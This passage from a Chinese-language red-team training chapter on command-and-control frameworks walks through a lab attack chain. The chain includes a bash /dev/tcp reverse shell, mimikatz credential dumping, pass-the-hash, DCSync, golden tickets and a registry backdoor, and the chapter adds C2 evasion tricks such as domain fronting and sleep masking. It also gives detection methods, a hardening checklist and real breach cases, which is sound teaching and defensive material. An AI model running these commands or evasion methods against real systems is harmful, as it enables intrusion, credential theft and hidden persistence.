      intranet:
        ipv4_address: 10.10.0.40

networks:
  extranet:
    driver: bridge
    ipam:
      config:
        - subnet: 192.168.100.0/24
  intranet:
    driver: bridge
    ipam:
      config:
        - subnet: 10.10.0.0/24
```

启动：

```bash
docker-compose up -d
```

> Windows 部分建议用 VirtualBox / VMware 单独搭建，组成完整 AD 环境。
>

## 4.2 红队全流程演示
### 阶段 1：立足（边界突破）
```bash
# 1. 信息收集 → 发现 DVWA
# 2. 利用 DVWA 命令注入拿 Webshell
# 3. Webshell 反弹 shell
bash -i >& /dev/tcp/192.168.100.10/4444 0>&1
```

### 阶段 2：vshell 上线
```bash
# 1. vshell 生成 Linux ELF Payload
# 2. 上传到边界机
# 3. 执行
chmod +x agent
./agent &
# vshell Web UI 看到 Beacon 上线
```

### 阶段 3：信息收集
```plain
shell ip a
shell cat /etc/os-release
shell net user
shell net group "Domain Admins" /domain
```

### 阶段 4：横向（以 DVWA 容器为跳板）
```plain
# SOCKS 代理
socks 1080

# 攻击者
proxychains nmap -sn 10.10.0.0/24
proxychains crackmapexec smb 10.10.0.0/24
```

### 阶段 5：拿域控
```plain
# 抓 hash（拿下 Win10 后）
mimikatz sekurlsa::logonpasswords

# DCSync（拿到域管 hash 后）
pth Administrator <hash>
# SMB Beacon → jump psexec 10.10.0.10
```

### 阶段 6：持久化
```plain
# 黄金票据（拿到 krbtgt hash 后）
lsadump::dcsync /user:krbtgt
# Mimikatz 伪造 TGT → 持久控制

# 注册表后门
reg add "HKCU\...\Run" /v backdoor /t REG_SZ /d "..." /f
```

## 4.3 流量检测与规避
### 4.3.1 C2 流量特征
```plain
┌──────────────────────────────────────────────┐
│ 1. 周期性回连（没 jitter 时规律性极强）       │
│ 2. 长 User-Agent 字符串                      │
│ 3. POST 包大小异常                           │
│ 4. TLS SNI 异常                              │
│ 5. JA3 指纹（TLS Client Hello）              │
│ 6. HTTP 头顺序异常                           │
│ 7. 自签名证书                                │
│ 8. 不可达域 / 新注册域                       │
│ 9. DNS 查询异常（dnscat2 / iodine）          │
│ 10. 异常长 Cookie                            │
└──────────────────────────────────────────────┘
```

### 4.3.2 防御检测工具
| 工具 | 用途 |
| --- | --- |
| Suricata / Snort | IDS 规则 |
| Zeek | 流量分析 |
| RITA | Real Intelligence Threat Analytics（找 Beaconing） |
| JA3+ | TLS 指纹 |
| Sysmon | Windows 系统调用日志 |
| Elastic SIEM | 日志聚合分析 |


### 4.3.3 规避技巧
```plain
┌──────────────────────────────────────────────┐
│ 1. sleep 60+ jitter 30%（打破周期性）        │
│ 2. 使用合法域名（CDN 隐藏 / 域前置）         │
│ 3. 用 Cloudflare 中转                        │
│ 4. Malleable Profile 模拟真实流量            │
│ 5. 自定义 TLS 证书（Let's Encrypt）          │
│ 6. Domain Aging（养域名 6 个月+）            │
│ 7. HTTPS Beacon 走 443                       │
│ 8. 使用第三方云函数（Azure / AWS Lambda）代理│
│ 9. Process Injection 隐藏内存                │
│ 10. Sleep Mask 加密内存                      │
└──────────────────────────────────────────────┘
```

## 4.4 防御方案
### 4.4.1 检测 C2 流量
```plain
┌──────────────────────────────────────────────┐
│ 1. 出网管控                                  │
│    - 默认拒绝，白名单允许                    │
│    - HTTP/HTTPS 解密检测（中间人）           │
│    - DNS 解析日志                            │
│                                              │
│ 2. Endpoint Detection (EDR)                 │
│    - Sysmon 日志                             │
│    - lsass 进程访问告警                      │
│    - Mimikatz 签名检测                       │
│    - 进程注入告警                            │
│                                              │
│ 3. 网络层                                    │
│    - Suricata + Emerging Threats 规则        │
│    - RITA 找 Beaconing                       │
│    - CyberChef 解码 Malleable                │
│                                              │
│ 4. 身份层                                    │
│    - Kerberos 异常告警                       │
│    - 大量 4768/4769 事件                     │
│    - NTLM Relay 检测                         │
│                                              │
│ 5. 行为分析                                  │
│    - UEBA（用户实体行为分析）                │
│    - 异常登录时间 / 异地登录                 │
│    - 异常命令执行                            │
└──────────────────────────────────────────────┘
```

### 4.4.2 真实 C2 IOC 示例
```plain
Cobalt Strike 默认证书指纹：
SHA256: 87f0e0b8...（自签名 Team Server）

Cobalt Strike 默认 Beaconing 特征：
- 每 60 秒精确请求
- Cookie 含 Base64 数据
- Content-Length 异常

Sliver 默认证书：
特定 ASN 组织 + Let's Encrypt
```

### 4.4.3 加固清单
```plain
□ 启用 Sysmon + 事件转发（WEF）
□ 部署 EDR（CrowdStrike / SentinelOne / Defender for Endpoint）
□ 网络层启用 IDS/IPS
□ TLS 流量解密（SSL Bumping）
□ DNS 流量监控
□ 出网严格白名单
□ 域账户最小权限
□ LSA Protection + Credential Guard
□ 监控 DCSync 调用
□ 定期威胁狩猎（Threat Hunting）
```

## 4.5 真实案例
### 4.5.1 SolarWinds 攻击中的 C2（2020）
```plain
攻击者：APT29 (Cozy Bear)
C2：自研 SUNBURST 后门
特征：
  - 隐藏在 SolarWinds Orion 软件更新包
  - 等 12-14 天才开始 C2 通信（绕过沙箱）
  - 模拟 SolarWinds API 流量
  - 使用 Domain Fronting（隐藏真实 C2）
影响：18000+ 客户，含美国政府
```

### 4.5.2 Colonial Pipeline 勒索（2021）
```plain
攻击者：DarkSide
C2：Cobalt Strike
入侵路径：暴露的 VPN 账户（密码泄露）
利用 CS 横向到 Active Directory
最终部署 DarkSide 勒索软件
影响：美国东海岸断油数天
```

### 4.5.3 Atomic 博彩公司（2023）
```plain
攻击者：UNC4736（朝鲜）
C2：自研越界后门
入侵路径：通过 0day 投递
影响：偷取 1 亿美元加密货币
```

### 4.5.4 MOVEit 数据泄露（2023）
```plain
攻击者：Cl0p
C2：自研 + 公开工具
入侵路径：MOVEit Transfer SQL 注入 CVE-2023-34362
利用 StealBit 工具批量外传数据
影响：全球 2500+ 组织
```

### 4.5.5 微软 Exchange ProxyLogon（2021）
```plain
攻击者：HAFNIUM（中国 APT）
C2：China Chopper Webshell + 自研后门 ASPXSpy
入侵路径：ProxyLogon 漏洞链
工具：China Chopper（轻量 webshell）+ Cobalt Strike
```

### 4.5.6 应急响应常见 C2
| 工具 | 频率 | 检测难度 |
| --- | --- | --- |
| Cobalt Strike | ★★★★★ | 中（默认易检测） |
| Metasploit | ★★★★ | 易（特征明显） |
| Empire | ★★★ | 中 |
| Sliver | ★★★ | 中 |
| Havoc | ★★ | 难（新） |
| 自研 C2 | ★★★ | 极难 |


---

## 附录 A 必背 30 条
```plain
1. C2 = Command and Control，攻击者控制受害主机的平台
2. C2 四组件：Operator / Team Server / Listener / Beacon
3. Listener 类型：HTTP/HTTPS/DNS/SMB/TCP
4. Beacon 默认定期回连（sleep）
5. Jitter 打破回连规律性
6. SMB Beacon 适合内网横向（父子 Beacon）
7. Staged Payload 分阶段下载
8. Stageless 一次到位，更隐蔽
9. Cobalt Strike 是商业 C2 标杆
10. Team Server 默认端口 50050
11. CS 默认用 Java GUI 客户端
12. Malleable Profile 自定义流量伪装
13. Domain Fronting 借合法 CDN 隐藏 C2
14. Aggressor Script 基于 Sleep 语言
15. vshell 是国产开源 C2
16. vshell 部署：docker run -p 443:443 veinmail/vshell
17. Sliver 是开源 CS 替代，Go 编写
18. Sliver 支持 WireGuard 通信
19. Havoc 用 C/C++，UI 漂亮，抗 EDR
20. Mythic 多 Agent 框架
21. Beacon 上线后第一件事：sleep 30 + jitter
22. SOCKS Proxy 让攻击者访问内网
23. jump psexec / wmi / winrm 横向
24. Mimikatz 集成在 CS / vshell / Sliver
25. C2 流量检测：周期性 + JA3 + 异常头
26. RITA 工具找 Beaconing
27. Suricata + Emerging Threats 规则
28. Sysmon 记录 Windows 系统调用
29. 防御核心：出网白名单 + EDR + 日志分析
30. 商业 C2 必须授权，学习用开源
```

## 附录 B 课后作业
### 必做
1. **vshell 完整部署 + Windows 上线 + 横向 + 拿权限**，写完整报告。
2. **Sliver 部署**：生成 Linux Implant，运行后操作 whoami / upload / download。
3. **Havoc 部署**：对比 vshell 的差异，写体验报告。
4. **Malleable Profile**：写一个伪装成 jQuery 的 CS Profile（即使没 CS 也能理解语法）。

### 选做
5. 阅读 MITRE ATT&CK Command and Control 战术（T1071 / T1090 / T1008 等）。
6. 用 Wireshark 抓 CS Beacon 流量，找特征。
7. 安装 RITA，分析 PCAP 找 Beaconing。
8. 研究 Domain Fronting 原理（已部分被云厂封禁）。

### 进阶
9. 学习 Sysmon + Splunk 搭建 SOC，编写 C2 检测规则。
10. 研究 Sleep Mask 与 Indirect Syscalls 原理。
11. 学习 Mythic 跨 Agent 操作（Apollo + Poseidon）。
12. 阅读《Red Team Infrastructure》构建分布式 C2 基础设施。


